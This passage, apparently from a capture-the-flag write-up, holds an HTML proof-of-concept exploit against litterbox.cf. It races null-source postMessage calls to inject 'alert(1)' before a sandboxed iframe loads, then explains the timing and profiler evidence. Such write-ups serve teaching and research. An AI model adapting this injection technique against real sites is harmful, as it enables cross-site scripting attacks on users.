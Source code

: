```html
<html>
<html>
  <body>
    <iframe id="litterBoxWebsite"></iframe>

    </div>
    <script>

      let postMessageWithNullSource = (message) => {
        let newWindow = document.createElement("iframe")
        document.body.appendChild(newWindow)
        newWindow.contentWindow.eval(`top.litterBoxWebsite.contentWindow.postMessage("${message}", '*')`)
        document.body.removeChild(newWindow)
      }

      let stopTryRaceConditioning = false
      let raceCondition = () => {
        postMessageWithNullSource("alert(1)")
        if (!stopTryRaceConditioning) { // <-- repeat until iframe is fully loaded
          setTimeout(raceCondition, 1) // <-- repeat after one ms, let scheduler do other stuff during that time
        }
      }

      litterBoxWebsite.src = "https://litterbox.cf/?src=data:,"
      litterBoxWebsite.onload = () => { 
        stopTryRaceConditioning = true
      }
      raceCondition()
    </script>
  </body>
</html>
```

If we are a bit lucky, the scheduler has time to execute our postMessage request during the laoding of the `script.js`, which is before the sandboxed iframe is in the DOM. As a result `e.source == window.frames[0]` <==> `null == undefined` <==> `true`

Using the chrome profiler, one can see that onmessage is called between the two parseHtml parts:

![profiler](img/profiler.PNG)

I guess I was pretty lucky that it worked first try. Sometimes, the Javascript scheduler is just not fast enough to process our postMessage request before the `script.js` has finished loading. In that case, one can simply repeat the whole process until successful.  